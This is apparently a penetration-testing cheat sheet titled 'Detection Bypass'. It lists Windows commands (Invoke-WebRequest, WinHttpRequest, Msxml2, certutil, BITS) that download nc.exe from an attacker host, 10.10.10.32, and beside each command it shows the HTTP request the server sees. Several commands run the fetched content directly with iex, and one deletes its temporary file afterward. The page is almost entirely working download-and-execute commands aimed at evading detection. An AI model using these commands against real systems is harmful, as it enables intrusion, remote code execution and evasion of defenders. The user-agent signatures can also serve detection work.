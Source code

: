 ```yaml
---
title: "Detection Bypass"
weight: 7
---
```

---

### Invoke-WebRequest - Client

```cmd
PS C:\sam> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\sam> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

### Invoke-WebRequest - Server

```bash
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

### WinHttpRequest - Client

```cmd
PS C:\sam> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\sam> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\sam> $h.send();
PS C:\sam> iex $h.ResponseText
```

### WinHttpRequest - Server

```bash
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

### Msxml2 - Client

```cmd
PS C:\sam> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\sam> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\sam> $h.send();
PS C:\sam> iex $h.responseText
```

### Msxml2 - Server

```bash
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

### Certutil - Client

```cmd
C:\sam> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\sam> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

### Certutil - Server

```bash
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

### BITS - Client

```cmd
PS C:\sam> Import-Module bitstransfer;
PS C:\sam> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\sam> $r=gc $env:temp\t;
PS C:\sam> rm $env:temp\t; 
PS C:\sam> iex $r
```

### BITS - Server

```bash
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```
